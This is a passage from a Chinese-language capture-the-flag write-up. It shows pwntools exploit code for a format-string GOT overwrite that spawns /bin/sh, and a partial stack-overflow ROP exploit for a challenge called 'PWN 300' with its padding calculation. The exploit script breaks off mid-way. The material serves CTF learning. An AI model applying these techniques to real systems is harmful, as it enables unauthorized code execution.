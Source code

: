```
p.sendline('Y')

p.recvuntil('GET YOUR NAME:\n\n')

p.sendline(fmtstr_payload(7,{atoi_got: system_addr}))

p.recvuntil('GET YOUR AGE:\n\n')

p.sendline('/bin/sh\x00')

p.interactive()
```

运行：

{%asset_img 9.png%}

ps:关于`fmtstr_payload`的用法以及源码参考：

http://docs.pwntools.com/en/stable/fmtstr.html



## PWN 300

存在栈溢出

{%asset_img 10.png%}、

动态调试一下，算下需要填充的padding的长度 

{%asset_img 14.png%}

`0xbfe17d98-0xbfe17d5c = 0x3c = 60`

然后再加上ebp的长度就是64

另外这个程序时静态链接的，那么ROP就在程序自身找找

{%asset_img 11.png%}

还有就是这个程序只能输入无符号类型的10进制数

{%asset_img 12.png%}

那么就需要把shellcode修改一下

最后编写exp:

```
from pwn import *

shellcode = (134671626, 135176288, 134984710, 1852400175, 134880685, 134671626, 135176292, 134984710, 1752379183, 134880685, 134671626, 135176296, 134563632, 134880685, 134513097, 135176288, 134671665, 135176296, 135176288, 134671626, 135176296, 134563632, 134723423, 134723423, 134723423, 134723423, 134723423, 134723423, 134723423, 134723423, 134723423, 134723423, 134723423, 134518657)

payload = []
padding = 16    
for i in range(padding):
	payload.append(i)

for i in shellcode:
	payload.append(i)

p = process('pwn300')

times = padding+len(shellcode)+1
p.recvuntil('calculate:')
p.sendline(str(times))
#填充padding，16*4
```